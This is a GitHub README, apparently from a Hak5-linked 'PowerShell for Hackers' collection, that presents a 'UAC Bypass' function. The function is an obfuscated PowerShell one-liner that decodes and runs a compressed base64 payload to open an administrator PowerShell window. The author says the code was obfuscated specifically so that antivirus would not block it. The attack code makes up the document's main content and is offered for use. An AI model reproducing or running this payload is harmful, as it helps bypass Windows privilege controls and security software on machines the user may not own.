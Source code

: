 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# UAC Bypass

## Description

This will open a powershell window with Admin privledges 

## The Function

### [UAC Bypass] 

The plain text version of this function will be blocked by your anti virus so I had to obfuscate it and compress it 
When this function is ran in a powershell window it will open another powershell window with Admin privledges 

```
.( $enV:coMSPEc[4,26,25]-JOin'') ( nEW-OBject  iO.stReamReader((nEW-OBject  IO.coMpRession.DEfLateStREAm( [SysTEm.io.mEmoRYStrEAM][COnVeRT]::frOMBASe64sTRinG('hY6xCoMwFEV/5RFc1aGjdHJooRSH0E5ZQnO1QmJCXop+fo1QKBTsfs+5p+iup6MIfkbkJ6ytsEA0EQNpY0icL+1NSd+nWUeo1mpmsKq8G5TMc9UFTOrhndOTEVQbKlYh1f0/heOSkdI4DazaV7wjbrTIapH53pv1ICDmokYmHVMpLRCoZDpsegOLhN1I8UnZ337XbMjPH2EZ0xs=' ), [sYsTem.Io.ComPReSsioN.COMPReSSionmodE]::decoMpREss) ),[sysTEm.teXt.enCoDIng]::AsCii) ).rEADtoENd( )

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

This function is not used in any current payloads


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
